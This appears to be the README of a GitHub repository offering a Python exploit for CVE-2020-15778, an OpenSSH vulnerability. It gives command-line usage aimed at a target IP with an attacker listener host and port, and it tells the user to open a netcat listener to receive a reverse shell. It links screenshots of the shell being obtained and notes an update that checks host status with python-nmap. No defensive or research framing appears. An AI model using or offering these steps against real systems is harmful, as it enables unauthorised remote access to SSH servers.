 # CVE-2020-15778-Exploit
## Exploit for CVE-2020-15778(OpenSSH vul)  
Example: python CVE-2020-15778.py -ip 192.168.11.123 -lhost 192.168.11.124 -lport 1234  
You need to use netcat to listen port before use python script  
Example: nc -lvp 1234  
1.Screenshot of using script  
![Alt text](https://github.com/yukiNeko114514/CVE-2020-15778-Exploit/blob/main/img/1.PNG)  
2.Screenshot of get shell  
![Alt text](https://github.com/yukiNeko114514/CVE-2020-15778-Exploit/blob/main/img/2.PNG)  
  
 2021-7-21 Update Log:  
 Use python-nmap to check host status  
 Usage:python3 CVE-2020-15778-Update.py -ip 192.168.11.123 -lhost 192.168.11.124 -lport 1234  
 "pip3 install python-nmap" before you use Update version script  
 XD

